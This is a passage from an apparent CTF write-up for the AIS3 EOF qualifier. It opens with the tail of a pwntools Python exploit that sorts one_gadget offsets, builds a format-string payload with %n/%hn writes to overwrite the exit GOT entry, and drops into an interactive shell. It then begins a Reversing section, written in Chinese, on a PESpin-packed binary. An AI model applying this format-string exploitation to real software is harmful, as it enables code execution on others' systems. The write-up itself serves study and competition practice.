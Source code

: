 ```python
for i in range(3):
    for j in range(i + 1, 3):
        if one_gadgets[i] > one_gadgets[j]:
            tmp = one_gadgets[i]
            one_gadgets[i] = one_gadgets[j]
            one_gadgets[j] = tmp
            tmp = idx[i]
            idx[i] = idx[j]
            idx[j] = tmp

for i in range(2, 0, -1):
    one_gadgets[i] = one_gadgets[i] - one_gadgets[i - 1]

print(one_gadgets)
print(idx)

raw_input('>')
payload  = b'%17$n%18$n'

for i in range(3):
    payload += '%{}c%{}$hn'.format(one_gadgets[i], 14 + idx[i]).encode()
payload += b'a' * (8 * 8 - len(payload))
payload += p64(exit_got)
payload += p64(exit_got + 2)
payload += p64(exit_got + 4)
payload += p64(r10)
payload += p64(r10 + 4)
p.sendline(payload)

log.info(hex(exit_got))
log.info(hex(exit_got + 2))
log.info(hex(exit_got + 4))
log.info(hex(r10))

p.interactive()
```

# Reversing

## abexcm100

* 直接執行的話

  ![image-20210111141706776](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2021-01-11-AIS3-EOF-Qual/image-20210111141706776.png)

  ![image-20210111141735221](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2021-01-11-AIS3-EOF-Qual/image-20210111141735221.png)

* 開 IDA 發現是亂的, 查殼一下發現是用 PESpin pack 過

  ![image-20210111142104619](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2021-01-11-AIS3-EOF-Qual/image-20210111142104619.png)
